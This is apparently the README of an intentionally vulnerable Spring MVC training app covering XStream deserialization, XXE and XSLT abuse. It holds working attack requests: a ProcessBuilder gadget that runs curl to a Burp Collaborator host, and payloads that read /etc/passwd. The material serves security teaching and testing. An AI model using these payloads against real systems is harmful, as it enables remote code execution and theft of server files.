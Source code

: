 # Vulnerable Spring MVC API
Vulnerable to:

* deserialization attacks (OWASP Top 10 A8)
* XXE (OWASP Top 10 A4)
* XSLT abuse (XSLT 1.0 and 2.0) 

### Running with maven

1. `git clone https://github.com/eoftedal/deserialize.git`
2. `cd deserialize`
3. `mvn jetty:run`

Accessible on port 8080

### Running in docker
1. `git clone https://github.com/eoftedal/deserialize.git`
2. `cd deserialize`
3. `docker build -t deserialize .`
4. `docker run -p 8080:8080 -it deserialize`

## Normal request

```
POST /api/contacts HTTP/1.1
Host: localhost
Content-Type: application/xml
Accept: application/xml

<contact>  
    <id>1</id>
    <firstName>yo</firstName>
    <lastName>lo</lastName>
    <email>yo@lo.no</email>
</contact>  
```

## Deserialization attack

```
POST /api/contacts HTTP/1.1
Host: localhost
Content-Type: application/xml
Accept: application/xml

<dynamic-proxy>  
  <interface>org.insecurelabs.api.contacts.Contact</interface>  
  <handler class="java.beans.EventHandler">  
    <target class="java.lang.ProcessBuilder">
      <command><string>/usr/bin/curl</string><string>http://[yourid].burpcollaborator.net</string></command>
    </target>
    <action>start</action>
  </handler>  
</dynamic-proxy> 
```

## XXE

```
POST /api/contacts HTTP/1.1
Host: localhost
Content-Type: application/xml
Accept: application/xml

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
    <!ELEMENT string (#PCDATA)>
    <!ENTITY content SYSTEM "file:/etc/passwd">
]>
<contact>  
    <id>1</id>
    <firstName>&content;</firstName>
    <lastName>lo</lastName>
    <email>yo@lo.no</email>
</contact>
```

## XSLT 2.0

```
POST /api/contacts/1/html HTTP/1.1
Host: localhost
Content-Type: application/xslt
Accept: text/html
Content-Length: 241

<?xml version="1.0" encoding="UTF-8" ?>
<xsl:stylesheet version="2.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
 <xsl:template match="/">
  <xsl:value-of select="unparsed-text('/etc/passwd')"/>
 </xsl:template>
</xsl:stylesheet>
```

You can also use URLs instead of file names with `unparsed-text()`. And of course XXE in the XSLT.

# Resources
http://www.pwntester.com/blog/2013/12/23/rce-via-xstream-object-deserialization38/
